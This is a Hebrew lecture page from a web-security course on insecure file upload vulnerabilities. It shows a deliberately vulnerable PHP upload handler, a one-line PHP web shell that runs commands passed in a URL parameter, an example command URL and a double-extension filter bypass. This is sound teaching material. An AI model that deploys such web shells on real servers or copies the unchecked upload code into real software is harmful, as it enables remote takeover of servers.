

repository: AmitPinchasi/amittech · page: מחקר-אתרים/5  - חולשות צד שרת/5.2 - חולשת insecure file upload/5.2 - חולשת insecure file upload - הרצאה/index.html · generator: mkdocs

# Insecure File Upload - העלאת קבצים מסוכנת

## מבוא

העלאת קבצים היא תכונה נפוצה באתרים, אך אם היא אינה מאובטחת כראוי, היא יכולה להוביל לפריצות חמורות. מתקפה זו מתרחשת כאשר משתמשים יכולים להעלות קובץ זדוני ולבצע קוד שרת, להפעיל סקריפטים זדוניים, או להשיג שליטה מלאה בשרת.

## **סכנות בהעלאת קבצים לא מאובטחת**

🔴 **הרצת קוד זדוני** - העלאת קובץ PHP שיכול לרוץ על השרת. 🔴 **ביצוע JavaScript זדוני** - העלאת קובץ HTML שמכיל JavaScript (Stored XSS). 🔴 **גישה לקבצים רגישים** - העלאת קובץ ZIP או TAR שמכיל סקריפטים לגישה למידע חסוי. 🔴 **Denial of Service (DoS)** - העלאת קובץ ענק כדי למלא את שטח האחסון של השרת.

## **דוגמה לקוד פגיע ב-PHP**

```php
<?php
if(isset($_FILES['file'])) {
    $upload_dir = "uploads/";
    $file_name = $_FILES['file']['name'];
    $file_tmp = $_FILES['file']['tmp_name'];
    move_uploaded_file($file_tmp, $upload_dir . $file_name);
    echo "File uploaded successfully: " . $file_name;
}
?>
```

📌 **מדוע הקוד הזה פגיע?**

- כל קובץ מתקבל בלי בדיקה.
    
- אין סינון סוג הקובץ.
    
- אין בדיקה האם זה באמת תמונה או מסמך.
    
- הקובץ נשמר ישירות בתיקיית השרת ויכול להתבצע אם זה קובץ PHP.
    

## **כיצד ניתן לנצל זאת?**

1⃣ **העלאת קובץ PHP זדוני** ניצור קובץ בשם `shell.php` עם הקוד:

```php
<?php echo shell_exec($_GET['cmd']); ?>
```

ונעלה אותו לשרת. לאחר מכן נבצע פקודות דרך ה-URL:

```
http://example.com/uploads/shell.php?cmd=whoami
```

💥 **אם זה עובד, יש לנו שליטה מלאה בשרת!**

2⃣ **העלאת קובץ עם סיומת כפולה** אם האתר בודק רק את הסיומת, נוכל להעלות קובץ בשם:

```
shell.php.jpg
```

ולגשת אליו ישירות בשרת.
